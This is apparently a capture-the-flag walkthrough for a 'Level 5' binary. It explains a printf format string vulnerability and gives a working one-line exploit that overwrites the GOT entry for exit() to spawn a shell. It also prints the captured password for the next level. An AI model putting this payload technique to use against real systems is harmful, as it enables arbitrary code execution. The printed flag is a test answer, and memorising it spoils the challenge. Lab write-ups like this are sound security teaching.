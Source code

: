 # Level 5: Format String Exploitation - Redirecting Execution Flow

## Challenge Overview

Level5 introduces a new challenge: we need to redirect program execution to an unreachable function that contains a shell execution.

## Source Code Analysis

Using Ghidra, we extracted the source code of the binary:

```c
#include <stdio.h>
#include <stdlib.h>

void n(void);
void o(void);

void main(void)
{
    n();
    return;
}

void n(void)
{
    char buffer[520];

    fgets(buffer, 0x200, stdin);
    printf(buffer);
    exit(1);
}

void o(void)
{
    system("/bin/sh");
    _exit(1);
}
```

## The Vulnerability

The vulnerability is in the `n()` function which directly passes user input to `printf()` without format specifiers. This creates a format string vulnerability that allows us to read from and write to memory.

## The Challenge

Looking at the code, we can identify:

1. The `n()` function reads input, passes it to `printf()`, then calls `exit(1)`
2. The `o()` function would give us a shell with `system("/bin/sh")`, but is never called in the normal program flow
3. Since `n()` calls `exit(1)` and not `return`, we can't use a traditional buffer overflow to redirect execution

## Key Memory Addresses

Using gdb, we identified the following address:

- Function `o()` address: `0x080484a4` (address of its first instruction)

```bash
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
```

- Function `exit()` address: `0x8049838` (address of the jump instruction in the GOT)

```bash
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
```

We determine the GOT entry for `exit()` by examining its PLT entry - the `jmp *0x8049838` instruction shows that the program is jumping to the address stored at 0x8049838, which is the GOT entry containing the actual address of the `exit()` function.

## The Exploitation Strategy

Since we can't overflow the buffer to change a return address (there isn't one), we need a different approach. The key insight is that we can overwrite the GOT (Global Offset Table) entry for `exit()` to redirect execution.

### Understanding GOT

The Global Offset Table (GOT) is a critical part of dynamically linked executables:

- It contains memory addresses of functions loaded from external libraries (like libc)
- When a program calls an external function like `exit()`, it uses the address stored in the GOT
- These addresses are stored in a writable memory section, making them targets for exploitation

By overwriting the GOT entry for `exit()`, we can make it point to `o()` instead of the real `exit()` function, effectively hijacking the program's execution flow.

### Format String Attack Approach

We'll use the format string vulnerability to:

1. Place the GOT address of `exit()` at the beginning of our input
2. Use the direct parameter access feature to make printf write to that address
3. Write the address of function `o()` (0x080484a4) to the GOT entry

### 1. Determine Parameter Positions

To find where our address is positioned in the printf parameter list, we run:

```bash
(python -c 'print "\x38\x98\x04\x08" + "%p %p %p %p"') | ./level5
0x200 0xb7fd1ac0 0xb7ff37d0 0x8049838
```

This shows our target address (0x8049838) is at position 4.

### 2. The Complete Exploit


```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824c%4$n"'; cat) | ./level5
```

This command:

1. Places the address (0x08049838) at the beginning of the input
2. Uses `%134513824c` to print exactly 134,513,824 characters (decimal for 0x080484a4)
3. The `%4$n` writes this count to the 4th argument, which is our GOT entry
4. Keeps stdin open with `cat` so we can interact with the shell once it spawns. Check level1's walkthrough for more details.

When the exploit runs, the program will call `exit(1)`, but instead of jumping to the real `exit()` function, it will jump to our `o()` function, which gives us a shell.

With the shell, we can read the password for level6:

```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Observations About \_exit() vs exit()

An interesting detail is that `o()` uses `_exit(1)` instead of `exit(1)`. This is important because:

1. If `o()` had used `exit(1)`, we would create an infinite loop when the GOT entry is overwritten
2. Since `_exit()` is a different function with its own GOT entry, we avoid this problem
3. This allows our exploit to cleanly execute the shell and then terminate
